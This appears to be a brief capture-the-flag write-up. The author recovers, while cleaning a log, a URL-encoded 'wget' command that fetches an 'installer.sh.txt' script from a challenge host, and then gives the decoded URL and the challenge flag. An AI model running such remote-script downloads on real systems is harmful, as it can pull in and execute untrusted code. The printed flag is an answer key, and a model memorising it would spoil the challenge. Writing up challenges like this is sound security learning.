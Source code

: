 ```yaml
---
ai_date: 2025-04-27 05:13:51
ai_summary: Executed `wget` command with a URL from the log, likely leading to command injection vulnerability.
ai_tags:
  - cmd-injection
created: 2024-08-08T09:50
points: 75
updated: 2025-07-14T09:46
---
```


Just by chance, when cleaning up the log file with `replace`, I ended up on a `cmd`.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1723125446/2024/08/8896d79a0f95c9011d5e608e8c696db5.png)

```
wget+https%3A%2F%bugcrowd-leaked.chals.io%2Ff8b7c5a3-9e1d-4f6b-8d2a-3c4e5f6a7b8c%2Finstaller.sh.txt

https://bugcrowd-leaked.chals.io/f8b7c5a3-9e1d-4f6b-8d2a-3c4e5f6a7b8c/installer.sh.txt
```

```flag
flag{Blu3_DA_b@_d3E_d@_ba>d1$%^$%}
```